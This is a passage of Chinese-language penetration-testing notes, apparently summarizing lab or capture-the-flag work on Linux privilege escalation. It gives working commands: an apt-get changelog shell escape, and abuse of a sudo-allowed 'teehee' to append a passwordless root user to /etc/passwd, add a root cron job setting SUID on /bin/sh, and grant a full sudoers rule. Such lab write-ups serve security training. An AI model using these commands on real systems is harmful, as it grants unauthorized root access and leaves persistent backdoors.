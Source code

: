 切换到jason用户，使用apt-get命令提权，因为用户是自己建立的，所以密码也当然是知道的；
```
sudo apt-get changelog apt
!/bin/bash
```
![](_img\14-归类总结/1671608752680-ebbc2635-1113-4445-abe6-7afaf0de707e.jpeg)


## 10.12、tee提权
这里靶机用的是teehee命令，可以写入文件内容并不覆盖文件原有内容，功能与tee命令类似。<br />![](_img\14-归类总结/1671608752949-d564ecca-0ee7-47cf-a03a-c521a975b69f.jpeg)
虽然有密码，但不能直接切到root，从sudo看，明显这个teehee可以不要密码以root身份运行，提权就靠这个程序了；

**方法一**<br />追加一个名为hacker的用户，将它的uid和gid也设置为root的0：
```
echo "hacker::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
![](_img\14-归类总结/1671608753090-dfee96e0-efe2-4e77-927f-52b4f6ab774e.jpeg)
![](_img\14-归类总结/1671608753698-6f991993-0f92-4c3e-bb7b-d6612566c080.jpeg)


**方法二**<br />可以在/etc/crontab下写入定时计划，提升到root权限。<br />crontab介绍<br />Linux crontab是用来定期执行程序的命令。当安装完成操作系统之后，默认便会启动此任务调度命令。
```
f1 f2 f3 f4 f5 program
其中 f1 是表示分钟，f2 表示小时，f3 表示一个月份中的第几日，f4 表示月份，f5 表示一个星期中的第几天。program 表示要执行的程序。
当 f1 为 * 时表示每分钟都要执行 program，f2 为 * 时表示每小时都要执行程序，其馀类推；
当 f1 为 a-b 时表示从第 a 分钟到第 b 分钟这段时间内要执行，f2 为 a-b 时表示从第 a 到第 b 小时都要执行，其馀类推；
当 f1 为 */n 时表示每 n 分钟个时间间隔执行一次，f2 为 */n 表示每 n 小时个时间间隔执行一次，其馀类推；
当 f1 为 a, b, c,... 时表示第 a, b, c,... 分钟要执行，f2 为 a, b, c,... 时表示第 a, b, c...个小时要执行，其馀类推

*    *    *    *    *
-    -    -    -    -
|    |    |    |    |
|    |    |    |    +----- 星期中星期几 (0 - 7) (星期天 为0)
|    |    |    +---------- 月份 (1 - 12) 
|    |    +--------------- 一个月中的第几天 (1 - 31)
|    +-------------------- 小时 (0 - 23)
+------------------------- 分钟 (0 - 59)
```

我们可以追加内容为
```
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab
```
表示在/etc/crontab下写入定时计划，一分钟后由root用户给 /bin/bash 命令加权限（chmod 4777即开启suid和rwx权限）<br />![](_img\14-归类总结/1671608753729-75c9f6d3-963f-4921-b279-dc79228471ca.jpeg)

**方法三**<br />先看看本地sudoers文件的语法。
```
cat sudoers
```
![](_img\14-归类总结/1671608753856-822d733c-f1cb-435b-a0e4-61fa4fc081f9.jpeg)
仿造写一个 charles ALL=(ALL:ALL) ALL
```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
```
![](_img\14-归类总结/1671608753874-256f58d7-0b60-436f-8d8e-61f1aa1f1e2b.jpeg)

